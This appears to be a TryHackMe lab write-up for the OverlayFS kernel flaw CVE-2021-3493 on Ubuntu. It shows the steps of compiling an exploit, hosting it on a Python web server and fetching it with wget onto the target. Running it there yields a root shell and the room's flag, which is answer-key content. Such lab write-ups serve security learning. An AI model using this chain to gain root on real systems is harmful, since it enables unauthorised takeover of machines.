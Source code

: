<h1 align="center">OverlayFS - CVE-2021-3493</h1>
<p align="center">2025, October 4<br>Hey there, fellow lifelong learner! I´m <a href="https://www.linkedin.com/in/rosanafssantos/">Rosana</a>, and I’m excited to join you on this adventure, part of my <code>516</code>-day-streak in <a href="https://tryhackme.com">TryHackMe</a>.<br>
<em>Exploit a 2021 Kernel vulnerability in Ubuntu to become root almost instantly!</em><br>
<img width="80px" src="https://github.com/user-attachments/assets/bc57e64f-e76e-4c07-9a3b-d733bf90c391"><br>
Access it <a href="https://tryhackme.com/room/overlayfs">here</a>.<br>
<img width="1200px" src="https://github.com/user-attachments/assets/7d95073e-f7e4-4eae-8810-ae20486105d7"></p>


```bash
https://ssd-disclosure.com/ssd-advisory-overlayfs-pe/
```

```bash
:~# nano exploit.c
```

```bash
:~# gcc exploit.c
```

```bash
:~# gcc -o exploit exploit.c
```

```bash
:~# python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
xx.xxx.xx.xx - - [05/Oct/2025 xx:xx:xx] "GET /exploit HTTP/1.1" 200 -
```

```bash
:~# ssh overlay@xx.xxx.xx.xx
...
overlay@overlayfs:~$ wget http://xx.xxx.xx.xx:8000/exploit
...
```

```bash
overlay@overlayfs:~$ chmod 777 exploit
```

```bash
overlay@overlayfs:~$ ./exploit
bash-4.4# cd /root
bash-4.4# ls
flag.txt
bash-4.4# cat flag.txt
thm{27aaa5865a52dcd4cb04c0e0a2d39404}
```


<br>
<br>


<img width="1897" height="890" alt="image" src="https://github.com/user-attachments/assets/dde93eb3-90d8-414d-a34d-f95104d942da" />
